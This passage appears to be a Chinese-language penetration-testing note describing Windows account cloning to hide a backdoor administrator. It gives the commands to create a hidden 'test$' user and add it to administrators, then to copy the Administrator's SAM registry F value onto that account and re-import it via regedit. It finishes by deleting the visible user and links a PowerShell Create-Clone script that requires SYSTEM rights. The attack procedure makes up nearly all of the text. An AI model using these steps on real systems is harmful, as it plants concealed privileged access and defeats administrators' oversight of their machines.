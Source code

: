 	>net user test$ test /add
	>net localgroup administrators test$ /add
	注册表HKEY_LOCAL_MACHINE\SAM\SAM\
	给予administrator SAM的完全控制和读取的权限
	以下导出为1.reg
	HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\test$
	记录HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\test$的默认类型000003EA
	以下导出为2.reg
	HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000003EA
	默认administrator默认类型为000001F4
	以下导出为3.reg
	HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F4
	把000001F4(3.reg)的F值粘贴到000003EA(2.reg)的F值
	修改后导入
	>regedit /s 1.reg
	>regedit /s 2.reg
	删除net user test$ /del
	Powershell脚本
	https://github.com/3gstudent/Windows-User-Clone/blob/master/Windows-User-Clone.ps1
	需system权限
	>Create-Clone -u 要创建的 -p 密码 -cu 想要克隆的
![image](/assets/Pentest_Note/master/img/448.png)
![image](/assets/Pentest_Note/master/img/449.png)